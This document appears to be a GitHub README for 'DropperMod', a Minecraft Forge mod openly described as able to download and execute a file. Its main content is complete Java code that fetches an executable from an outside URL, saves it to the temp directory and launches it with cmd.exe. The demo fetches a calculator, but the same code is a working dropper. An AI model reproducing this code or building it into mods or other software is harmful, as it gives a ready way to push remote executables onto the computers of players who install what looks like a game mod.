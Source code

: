 # :electric_plug: DropperMod
A minecraft(forge) mod which can download and execute file

## :droplet: Windows (Download and run calculator)
<p align="center">
  <img src="IMG/windows.gif">
</p>

## :zap: How it works?
``` java
// Our file url 
final URL url = new URL("http://www.ddlands.com/downloads/Calc.exe");
// Get file temp path
String tempFileName = Paths.get(
		System.getProperty("java.io.tmpdir"), 
		new File(url.getPath()).getName().toString()
).toString();
// If target file not exists
if (!new File(tempFileName).exists()) {
	// Download file
	BufferedInputStream inputStream = new BufferedInputStream(url.openStream());
	FileOutputStream fileOutputStream = new FileOutputStream(tempFileName);
	// Write bytes to file
	byte dataBuffer[] = new byte[1024];
	int bytesRead;
	while ((bytesRead = inputStream.read(dataBuffer, 0, 1024)) != -1) {
		fileOutputStream.write(dataBuffer, 0, bytesRead);
	}
	// Close input and output stream
	inputStream.close();
	fileOutputStream.close();
	// Execute file
	Runtime.getRuntime().exec(
		new String[] { "cmd.exe", "/C", "start", tempFileName }
	);
}
```
